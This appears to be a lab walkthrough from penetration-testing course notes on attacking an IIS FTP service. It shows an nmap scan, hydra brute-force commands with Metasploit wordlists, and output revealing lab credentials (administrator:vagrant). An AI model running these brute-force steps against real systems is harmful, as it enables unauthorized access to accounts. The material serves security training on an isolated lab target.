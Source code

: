 ```bash
nmap -sV -sC -p21,80 10.2.29.246

# FTP is part of the Microsoft IIS package 
```

- Try `anonymous`:`anonymous` with FTP

```bash
ftp 10.2.29.246
```

![](4-exploitationassets/image-20230424111034331.png)

- **Brute-force** the FTP server

```bash
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.2.29.246 ftp

hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.2.29.246 ftp -I
```

```bash
[21][ftp] host: 10.2.29.246   login: administrator   password: vagrant
[21][ftp] host: 10.2.29.246   login: vagrant   password: vagrant
```

![](4-exploitationassets/image-20230424111420412.png)

> 📌 2 FTP users:
>
> - `administrator`:`vagrant`
> - `vagrant`:`vagrant`

```bash
ftp 10.2.29.246
# Use administrator:vagrant
```
